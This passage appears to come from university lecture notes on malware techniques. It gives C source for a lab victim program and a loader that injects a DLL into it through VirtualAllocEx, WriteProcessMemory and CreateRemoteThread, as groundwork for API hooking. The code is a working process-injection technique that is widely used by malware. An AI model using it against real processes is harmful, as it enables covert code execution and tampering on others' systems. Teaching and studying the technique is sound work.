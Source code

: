 The above program will run "target.exe" and inject "test.dll" into "target.exe".

### 4.13 Injected DLL performs API hooking

victim2:(Before running this, you should make "f1.txt" in victim2/Debug directory)

```c
#include "windows.h"
int main(){
	MessageBox(NULL,"hello from victim2","test",NULL);
	CopyFileW(
	    L"G:\\kim\\LectureNotes\\security\\2017\\malware\\victim2\\Debug\\f1.txt",
             L"G:\\kim\\LectureNotes\\security\\2017\\malware\\victim2\\Debug\\f2.txt",
	    FALSE);
}
```

injectDLL3:

```c
#include <windows.h>
#include "stdio.h"

int main(){
   STARTUPINFO si;
   PROCESS_INFORMATION pi;
   ZeroMemory(&si, sizeof(si));
   si.cb=sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   char * fname=
      "G:\\kim\\LectureNotes\\security\\2017\\malware\\victim2\\Debug\\victim2.exe";

   if (!CreateProcess(NULL, fname, NULL,NULL,FALSE,0,NULL,NULL,&si,&pi)){
	   printf("createprocess failed:%d\n", GetLastError());
	   return 0;
   }
   // now pi.hProcess is the handle to the new process, pi.dwProcessId is the pid
   printf("child pid:%d\n", pi.dwProcessId);     // show child's pid

   LPCTSTR szDllName=
     "G:\\kim\\LectureNotes\\security\\2017\\malware\\sharedModule\\Debug\\sharedModule.dll";

   // step 1. get handle of victim process
   HANDLE hProcess=pi.hProcess;

   // step 2. alloc mem in target's addr space by size of dwBufSize
   DWORD dwBufSize=lstrlen(szDllName)+1;
   LPVOID pRemoteBuf=
      VirtualAllocEx(hProcess,NULL,dwBufSize,MEM_COMMIT,PAGE_READWRITE);
   // step 3. write "test.dll" path into alloc'd mem
   WriteProcessMemory(hProcess,pRemoteBuf,(LPVOID)szDllName,dwBufSize,NULL);
   // step 4. get LoadLibraryA addr
   HMODULE hMod=GetModuleHandle("kernel32.dll");
   LPTHREAD_START_ROUTINE pThreadProc=
      (LPTHREAD_START_ROUTINE)GetProcAddress(hMod,"LoadLibraryA");
   // step 5. run thread
   HANDLE hThread=
      CreateRemoteThread(hProcess,NULL,0,pThreadProc,pRemoteBuf,0,NULL);
   WaitForSingleObject(hThread,INFINITE);
   CloseHandle(hThread);
   CloseHandle(hProcess);
   CloseHandle(pi.hThread);
   return TRUE;
}
```